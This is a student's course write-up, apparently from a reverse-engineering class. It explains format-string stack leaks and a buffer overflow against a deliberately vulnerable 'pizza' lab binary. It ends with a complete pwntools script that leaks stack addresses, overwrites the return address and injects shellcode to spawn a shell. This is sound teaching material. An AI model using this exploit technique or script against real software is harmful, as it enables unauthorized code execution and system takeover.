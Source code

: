 # Control Flow Integrity Violation

The goal of this assignment is to write a python script using `pwntools` that executes the given program, leaks the stack offset, and spawns a shell. Through this exercise, we delve into the realm of control flow integrity violations, where unexpected inputs manipulate the program's execution flow, potentially leading to unauthorized access or unintended behavior.

In a previous class, we went into the concept of library injection, a method involving a loader program to run another program to load a library in a new thread. Dr. Reynolds highlighted a more direct approach to inject shellcode into vulnerable processes. This technique is based in providing unexpected input to a program, and thus altering the content of the instruction pointer register. By gaining control of the IP register, attackers gain the ability to manipulate the program's behavior at will. Although numerous methods exist to achieve this, we focused only on one: buffer overflow.

Dr. Reynolds explained that when a programmer permits writing more data into a buffer than its capacity, it leads to overwriting data higher up on the stack. This behavior typically results in undefined behavior or segmentation faults. However, attackers can exploit this vulnerability to their advantage. In a buffer overflow attack, attackers aim to overwrite the return address since it is eventually loaded into the IP register.

The approach for this assignment involves injecting shellcode directly into the buffer and ensuring that the IP register points to the beginning of this shellcode. Then later, the shellcode executes within the program, invoking functions like execve and replacing the current program with a shell accessible to the attacker.

## Requiered files and dependencies
- Install pwntools using the following commands on the terminal
  ```bash
  sudo apt-get update -y
  sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential -y
  sudo python3 -m pip install --upgrade pip -y
  sudo python3 -m pip install --upgrade pwntools -y
  ```
- Download the program we are going to take over. Victim program: [(Pizza)](https://github.com/tolvumadur/Reverse-Engineering-Class/blob/main/Spring24/Samples/binaries/pizza)
  
## Findings about the victim program: pizza
This program appears to be a simple pizza calculator/delivery app. Here's how it works:

1. The program prompts the user to input their name for the order.
2. After receiving the name input, it acknowledges the user with a greeting containing their name.
3. Then, it asks the user to specify the number of pizzas they would like to order, within the range of 1 to 10.
4. Upon receiving the number of pizzas, it confirms the order and informs the user that the pizzas will be prepared.
5. Next, it calculates the total cost of the order, including the cost of the pizzas and tax.
6. It displays the total amount to the user.
7. Finally, it requests the user to input their credit card number for payment.
8. After receiving the credit card number, it confirms the payment method and completes the transaction.

After using Ghidra to inspect the program we can see that the program is using a not very secure function that allows the user to input a format string. Dr. Reynolds mentioned that a format string such as `%p` can leak values from the stack.


## Process for building the script
We were asked by the professor to see if we were able to crash the program by running it and inputting data. So what we did was input a large number of random characters into the name field. As we gradually increased the input length, we observed the program's behavior. Upon reaching a certain threshold, the program crashed and displayed a segmentation fault error. This crash occurred because our input overflowed the buffer, thereby overwriting critical memory areas, including the return address. Consequently, the program became unable to execute further instructions, resulting in the segmentation fault error.

To achieve a succesful buffer overflow attack we need to meet three conditions:
1. We need to find out how many bytes after the beginning of the buffer are there before the return address.
2. We need to inject padding bytes plus a new return address, plus some shellcode.
3. We need to be able to predict at what address our shellcode will be so we can return to it.

To get started I ran the program using my python script with pwntools. In line 24 we are telling the program to run the pizza program. Then in lines 26 and 28 we are setting up some parameters about our proccesor and computer. Pwntools library includes a shellcode that we can use to spawn the shell, this is declared in line 35.
Then we input a format string to leak values from the stack (line 37). We run the program (line 39), recieve and print the welcome message (line 42), and then we send "our name" which in this case will be the format string to leak values (line 45). Recieve and print the Hi message that will contain the leak values (lines 47-48).

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/dda49cd8-5609-47a6-abc4-42da58c5d0e3)    


The output will look like this:   
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/2a0d9983-3d1b-47db-95ec-aa8df0c18061)   
If we pay close attention to the values printed, we can notice that the 3 last values are addresses from the stack (we know this because of the format).

We keep sending values from the other fields, we send a `10` for the number of pizzas, but for the credit card number we send a bunch of A's (it can be any character) to get the program to crash so that we can get a segfault error and this will generate a corefile containing information about the crash. I created a function to get stack information from the corefile of the crash, and my function prints the addresses and the values at that part, it also show us where the RSP (stack pointer) is pointing to.   

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/daf459ad-cbda-42ae-9b0e-ca57684f1bee)    

Now that we have an idea on how the stack looks like, we can see where the RSP is pointing to (which is the return address), and at the address `0x7ffc89097ca0` we can see the beggining of the shellcode. CPU's are protected against these types of attacks, they use something called Address Space Layout Randomization (ASLR) which basically is in charge of running program on random locations every time they are run. This makes almost impossible and inpredictibale to calculate where our shellcode should be. But since we already have the values, and after running the script a couple of times, we notice that theres is always the same amount of space beetween the addresses leaked.   
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/a81186fc-3628-459b-ad86-0978a8bd3afb)   

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/7f5b3e0e-a9a4-4df3-aabb-1b8f5d49f0fc)




## Buffer Overflow script

```python3
#!/usr/bin/env python3

from pwn import *

def printStack(core):
    rsp = core.rsp
    stack_before_rsp = core.read(rsp - 22 * 8, 22 * 8)  # 22 elements before RSP
    stack_after_rsp = core.read(rsp, 22 * 8)  # 22 elements after RSP

    print("\nStack:")
    for i in range(0, len(stack_before_rsp), 8):
        address = rsp - 22 * 8 + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

    for i in range(0, len(stack_after_rsp), 8):
        address = rsp + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

getname_address = elf.symbols["getname"]

#print(hex(getname_address))

#print(shellcraft.amd64.linux.sh())
#exit()

shellcode = asm(shellcraft.amd64.linux.sh())



input1 = b"%p %p %p %p %p %p %p %p %p"



victim = process("./pizza")

# Recieve Welcome Message
print(str(victim.recvline(), "latin-1"))

# Send Name
victim.sendline(input1)
# Recieve stack address leak output
leak = str(victim.recvline(), "latin-1")
print(leak)

# Send numberof pizzas and recieve output
victim.sendline(b"10")
print(str(victim.recvline(), "latin-1"))

# SHELL CODE + "A"*?? + NEW RET_ADDRESS
retAddr = int(leak.split(" ")[7], 16) - 112
input2 = shellcode + b"A"*88 + retAddr.to_bytes(8, 'little')

victim.sendline(input2)
#print(str(victim.recvline(), "latin-1"))


victim.interactive()
#core = victim.corefile

#printStack(core)

# print(disasm(core.read(core.rip, 8)))
# print( core.read( core.rsp, 100))


exit()
```
